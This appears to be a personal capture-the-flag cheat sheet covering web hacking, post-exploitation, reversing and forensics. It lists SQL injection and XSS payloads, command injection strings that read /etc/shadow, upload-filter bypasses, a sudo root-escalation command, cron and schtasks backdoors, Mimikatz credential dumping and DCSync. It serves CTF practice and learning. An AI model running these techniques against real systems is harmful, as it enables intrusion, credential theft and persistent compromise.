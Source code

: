 # Web
Hidden pages
* Run `Dirbuster`, `dirb`, or `gobuster` to get a directory tree and insecure files
* Inspect robots.txt : www.website.com/robots.txt
* Inspect website headers: curl -I website.com/page.php

Hidden details - Use "Find" in page source to search: Login, Password, Admin, Administrator, Success
Passwords - Always try password=username first, then shorter/obvious password lists, before running rockyou.txt

[Admin Access through weak password update process - Walkthrough](https://siunam321.github.io/ctf/Cyber-Apocalypse-2023/Web/Passman/)
* Create user --> BurpSuite Interceptor ON --> Update Password --> Burp Repeater request to change "admin" password 

## SQL Inj 
Attempt login with: admin' OR 1=1, ' OR 1=1-- -, " OR 1=1-- -, " OR 1 or ", admin"-- -", admin;-- -'

## Reflected XSS 
Put any of the following into address bars, comment fields or any Java fields: <script>alert(flag)</script>, <sScriptCRIPT>alert(flag)</sSCRIPTcript>, 

## OS Inj
Run [valid input] followed by: || cat ../flag.txt, | cat ../flag.txt, && cat ../flag.txt, & cat ../flag.txt, ; cat ../flag.txt
Run [valid input] followed by: || cat ../../etc/passwd, | cat ../etc/shadow, && cat ../etc/shadow, & cat ../etc/shadow, ; cat ../etc/shadow
Run [valid input] followed by: || ifconfig, | ifconfig, && ifconfig, & ifconfig, ; ifconfig

Input following into address bar with "?" options: `?message=;system` , `?page='netstat`
Other options for breaks: ' " : 

## Directory Traversal
Inspect address bar and use variations of `?page=disclaimer_2.txt` to find files/directories (eg. `?page=old_disclaimers/disclaimer_1.txt`)

## Local File Inclusion
Any option to upload a file: make sure it's php. 
If whitelisting file types, add extension on to PHP file (eg. cats.php.jpg)

## Remote File Inclusion

## Linux - Host Enumeration
`Nmap -A -v ipaddress` (-A for aggressive, -v for verbose, -sV not required with -A)

Linux Post-exploitation: ls, cat, locate, cat /etc/users
* `getuid` , `search -f flag`, `locate flag`
* Attempt escalation with `sudo -u#-1 bash` for root
* Persistent backdoor through `cron`

Windows Post-exploitation: dir, type, find, net users
* Persistent backdoor through `schtasks` (check task names with `schtasks /query /TN flag /FO list /v`
* Check `C:\` & `C:\Users\Public\Documents`
* Lateral: Search Metasploit for `psexec` exploit to login to Domain Controller
  * Dump SAM with Metasploit/Mimikatz: `kiwi_cmd lsa_dump_sam` (Find Hash NTLM, crack with `john --format=NT hashfile.txt`)
  * Dump LSA cache with Metasploit/Mimikatz: `kiwi_cmd lsadump::cache` (Find MsCacheV2, crack with `john --format=mscash2 hashfile.txt`)
* On Domain Controller: Run DC Sync for admin users eg. `dcsync_ntlm administrator`
_______________________________________________________

# Reversing
* Run "Strings <file> | grep flag" 
* [Excellent Reversing Examples - NitroLabs](https://nitrolabs.xyz/posts/HTB-CA2023-Reversing-HW-Misc/)

# Forensics
* [Excellent Forensics Examples - NitroLabs](https://nitrolabs.xyz/posts/HTB-CA2023-Forensics/)  
* Wireshark Filter: http contains flag, tcp contains flag
  * Right-click packet and select "Follow stream"
* [Chainsaw - Windows Forensics Tool - GitHub](https://github.com/WithSecureLabs/chainsaw)  

*ps1 = Powershell
